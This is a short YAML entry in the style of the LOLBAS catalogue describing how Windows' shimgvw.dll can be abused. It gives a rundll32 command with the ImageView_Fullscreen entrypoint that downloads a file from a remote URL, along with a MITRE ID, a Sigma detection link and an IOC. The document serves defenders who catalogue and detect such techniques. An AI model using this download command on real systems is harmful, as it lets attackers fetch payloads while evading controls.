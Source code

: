 ```yaml
---
Name: Shimgvw.dll
Description: Photo Gallery Viewer
Author: Eral4m
Created: 2021-01-06
Commands:
  - Command: rundll32.exe c:\Windows\System32\shimgvw.dll,ImageView_Fullscreen {REMOTEURL:.exe}
    Description: Once executed, rundll32.exe will download the file at the URL in the command to INetCache. Can also be used with entrypoint 'ImageView_FullscreenA'.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: c:\windows\system32\shimgvw.dll
  - Path: c:\windows\syswow64\shimgvw.dll
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_rundll32_susp_activity.yml
  - IOC: Execution of rundll32.exe with 'ImageView_Fullscreen' and a protocol handler ('://') on the command line
Resources:
  - Link: https://twitter.com/eral4m/status/1479080793003671557
Acknowledgement:
  - Person: Eral4m
    Handle: '@eral4m'
---
```

